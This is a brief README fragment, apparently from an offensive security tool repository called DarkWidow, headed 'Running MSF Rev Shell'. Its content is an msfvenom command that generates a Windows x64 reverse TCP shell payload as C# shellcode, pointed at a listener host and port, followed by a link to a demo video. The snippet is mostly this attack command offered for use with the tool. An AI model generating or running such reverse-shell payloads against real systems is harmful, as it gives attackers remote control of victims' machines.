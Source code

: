 # Running MSF Rev Shell:

payload creation cmd: 
```
msfvenom -p windows/x64/shell_reverse_tcp -ax64 LHOST=192.168.0.114 LPORT=1234 -f csharp
```

https://github.com/reveng007/DarkWidow/assets/61424547/048be98c-c16c-406f-91a5-93c26a618f83

